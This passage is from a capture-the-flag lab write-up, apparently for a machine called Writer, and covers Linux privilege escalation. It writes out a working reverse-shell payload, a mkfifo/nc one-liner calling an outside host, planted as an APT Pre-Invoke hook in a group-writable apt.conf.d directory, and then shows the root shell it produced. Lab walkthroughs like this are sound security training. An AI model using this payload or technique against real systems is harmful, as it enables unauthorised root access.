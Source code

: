 Next, we will execute the Linpeas script again to discover potential vectors for privilege escalation. We realize that ```john``` is part of the ```management``` group and ```management``` group is able to write into ```/etc/apt/apt.conf.d```. This gives us the idea of privilege escalation by APT (Refer to [here](hackingarticles.in/linux-for-pentester-apt-privilege-escalation/) for more info)

```
john@writer:~$ id
uid=1001(john) gid=1001(john) groups=1001(john),1003(management)
```

<img src = "../assets/writer/apt_management.png" width = "1000">

From the postfix, files we also realize that the ```disclaimer``` program will be executed when the user is ```john```.

```
  flags=Rq user=john argv=/etc/postfix/disclaimer -f ${sender} -- ${recipient}
```

Now, we will create a payload in the ```/etc/apt/apt.conf.d``` directory to create a reverse shell that can escalate our privileges to root privileges. The payload created will then execute the reverse shell prior to any system updates that is running in the background. 

Since the ```/etc/apt/apt.conf.d``` has full permissions and the disclaimer program is scheduled to run in the background since the user is ```john```, the reverse shell payload will be invoked. 

```
john@writer:~$ cd /etc/apt/apt.conf.d
john@writer:/etc/apt/apt.conf.d$ echo 'apt::Update::Pre-Invoke {"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.7 4444 >/tmp/f"};' > payload
```

Lastly, we will stabilize the root shell and obtain our flag.

```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.11.101] 45550
/bin/sh: 0: can't access tty; job control turned off
# python3 -c 'import pty; pty.spawn("/bin/bash")'
root@writer:/tmp# export TERM=xterm
export TERM=xterm
root@writer:/tmp# stty cols 132 rows 34
stty cols 132 rows 34
root@writer:/tmp# cd
cd
root@writer:~# ls
ls
root.txt  snap
root@writer:~# cat root.txt
cat root.txt
<Redacted system flag>
root@writer:~#
```